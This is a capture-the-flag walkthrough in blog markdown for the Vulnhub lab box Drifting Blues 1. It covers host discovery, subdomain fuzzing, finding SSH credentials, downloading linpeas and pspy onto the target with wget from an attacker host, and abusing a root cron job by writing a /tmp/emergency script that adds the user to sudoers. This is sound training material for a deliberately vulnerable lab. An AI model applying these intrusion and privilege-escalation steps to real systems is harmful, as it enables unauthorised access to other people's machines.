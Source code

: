 ```yaml
---
layout: post
title: "Drifting Blues 1"
date: 2021-05-15
ctf: true
excerpt: "Walkthrough for Drifting Blues 1 on Vulnhub"
tags: [DNS enumeration, website enumeration, crontab]
comments: false
---
```


# Drifting Blues 1

Drifting Blues is the first in a series of 9 boxes on [Vulnhub](https://www.vulnhub.com/series/driftingblues,424/)

<details><summary><strong>User Hints</strong></summary>
<ul>
    <li>Have you looked at the website's source code?
    <li>Searching for the word listed over and over in the note will help you decode it.
    <li>What can you do to enumerate subdomains on a website?
    <li>What file is used to prevent crawling of websites? Try this out on the uncovered subdomain.
</ul>
</details>

<details><summary><strong>Root Hints</strong></summary>
<ul>
    <li>What tool can you use to enumerate processes running on this system?
    <li>Are there any processes running on this system that can be abused?
</ul>
</details>

## Walkthrough

<details><summary><strong>Full Walkthrough</strong></summary>
First, let's find the IP address of the host by utilizing:

**`netdiscover -i eth0`** 

from our Kali host. After a few moments, you should be able to uncover the IP of our target system.

![Drifting Blues 1 netdiscover](/assets/img/driftingblues-1-1.png)

Once you have discovered the IP, let's enumerate this host to determine what ports/services are open/running. To do this, let's run:

`threader3000`

and enter the IP uncovered by netdiscover when prompted:



![Drifting Blues 1 threader3000](/assets/img/driftingblues-1-2.png)

Once it has completed, let it run it's recommended nmap scan:

![Drifting Blues 1 nmap](/assets/img/driftingblues-1-3.png)

It appears that we have SSH and an web server running on this box. Let's first take a look at the web server and open it up in a browser:

![Drifting Blues 1 website](/assets/img/driftingblues-1-4.png)

Next, I ran:

**`python3 dirsearch.py -u http://<target ip>`**

to attempt to find hidden directories/files, but nothing showed up:

![Drifting Blues 1 dirsearch](/assets/img/driftingblues-1-5.png)

Next, I looked at the source code on the main page of the website:

![Drifting Blues 1 source code](/assets/img/driftingblues-1-6.png)

It appears that this comment is base64 encoded, let's decode it to see what it reveals (I utilized [CyberChef](http://gchq.github.io/CyberChef/) for this:

![Drifting Blues 1 base64 decode](/assets/img/driftingblues-1-7.png)

Next, I navigated to the file on the website decoded above and was presented with the following:

![Drifting Blues 1 Ook](/assets/img/driftingblues-1-8.png)

It appears to be some sort of encoding. I did a bit of research and came across the following [site](https://www.splitbrain.org/_static/ook/) to decode this:

![Drifting Blues 1 Ook Decoder](/assets/img/driftingblues-1-9.png)

I then copied/pasted the text from the text file and decoded it, where I saw the following message:

![Drifting Blues 1 Ook decoded message](/assets/img/driftingblues-1-10.png)

This mentions a secret location that needs to be added to a host file. Let's search around and see if we can find the domain name on the website somewhere:

![Drifting Blues 1 website review](/assets/img/driftingblues-1-11.png)

After looking at the pages on the website, there's a email listed with a domain name of **driftingblues.box**. Let's add that to our host file on our attacker box with:

**`sudo /etc/hosts`**

![Drifting Blues 1 hosts file](/assets/img/driftingblues-1-12.png)

Next, let's navigate to http://driftingblues.box in our browser to confirm it works as expected:

![Drifting Blues 1 website](/assets/img/driftingblues-1-13.png)

It does, let's attempt to enumerate subdomains with wfuzz. The command to use is as follows:

**`wfuzz -c -Z -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://driftingblues.box"  -H "Host: FUZZ.driftingblues.box" -t 50`**

This will attempt to fuzz subdomains using the supplied list. We receive several results as shown below:

![Drifting Blues 1 wfuzz 1](/assets/img/driftingblues-1-14.png)

It appears that most of these redirect to the main site (which is 570 words, 7710 characters). Let's exclude these by using the --hw flag which acts as a filter to filter out the number of words supplied (in this case, 570)

**`wfuzz -c -Z -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://driftingblues.box"  -H "Host: FUZZ.driftingblues.box" -t 50 -hw 570`**

This leaves us with one subdomain: **test**

![Drifting Blues 1 wfuzz 2](/assets/img/driftingblues-1-15.png)

Let's add **test.driftingblues.box** to our hosts file by running:

**`nano /etc/hosts`**

![Drifting Blues 1 /etc/hosts test subdomain](/assets/img/driftingblues-1-16.png)

Next, let's navigate to **http://test.driftingblues.box**

![Drifting Blues 1 test site](/assets/img/driftingblues-1-17.png)

It appears this is a test site that is currently being built. Let's run:

**`python3 dirsearch.py -u http://test.driftingblues.box`**

![Drifting Blues 1 dirsearch test subdomain](/assets/img/driftingblues-1-18.png)

We will see that there is a robots.txt file listed for this subdomain. Let's visit it in our browser:

![Drifting Blues 1 robots.txt](/assets/img/driftingblues-1-19.png)

Let's look at the **/ssh_cred.txt** file:

![Drifting Blues 1 ssh_cred.txt](/assets/img/driftingblues-1-20.png)

The username was a guess on my part, as we knew we had sheryl, eric, and db as users based on the notes uncovered so far. The user ended up being eric, and after a few attempts, we were able to get logged in with **1mw4ckyyucky6** as the password:

![driftingblues-1-21](/assets/img/driftingblues-1-21.png)

From here, we can run:

**`cat user.txt`** 

to uncover the user flag.

![Drifting Blues 1 user.txt](/assets/img/driftingblues-1-22.png)

Next, let's do some enumeration and see what we can do to escalate our privileges to root. On our attacker host, let's server up an http server in python with:

**`python3 -m http.server`**

![Drifting Blues 1 python http server](/assets/img/driftingblues-1-23.png)

On our victim box, let's navigate to the tmp directory with:

**`cd tmp`**

followed by:

**`wget http://<attacker ip>:8000/linpeas.sh`** 

This will download the linpeas.sh script that is well known for it's enumeration capabilities.

Once downloaded, let's run:

**`chmod +x linpeas.sh`**

so the script can be executed.

![Drifting Blues 1 wget](/assets/img/driftingblues-1-24.png)

Next, let's run the script with:

**`./linpeas.sh`**

![Drifting Blues 1 linpeas.sh](/assets/img/driftingblues-1-25.png)

It appears that the path may be abused, but before I went down that route, I decided to download pspy64 to have it enumerate processes that are running. To download this and make it executable, I ran:

**`wget http://<attacker ip>:8000/pspy64`**

on the victim host followed by:

**`chmod +x pspy64`**

to make it executable.

![Drifting Blues 1 wget2](/assets/img/driftingblues-1-26.png)

Next, I ran pspy64 with:

**`./pspy64`**

![Drifting Blues 1 pspy](/assets/img/driftingblues-1-27.png)

After a few moments, it showed me that **/tmp/emergency** was being ran with sudo privileges every minute. I navigated to the /tmp directory with:

**`cd /tmp`** 

and the emergency file was not present. I then ran:

**`nano emergency`**

and added in

**`sudo usermod -aG sudo eric`**

to add eric to the list of sudo users:

![Drifting Blues 1 emergency file](/assets/img/driftingblues-1-28.png)

Next, after saving this file, I made it executable with:

**`chmod +x emergency`**

![Drifting Blues 1 chmod emergency](/assets/img/driftingblues-1-29.png)

Next, I waited a couple of minutes (as this script runs every minute), and then used:

**`sudo su`**

to escalate my privileges to root. I then ran the following commands:

**`**cd /root`****

**`ls`**

**`cat root.txt`**

![Drifting Blues 1 root](/assets/img/driftingblues-1-30.png)

That's it! After finding the root flag we've completed this box.

</details>
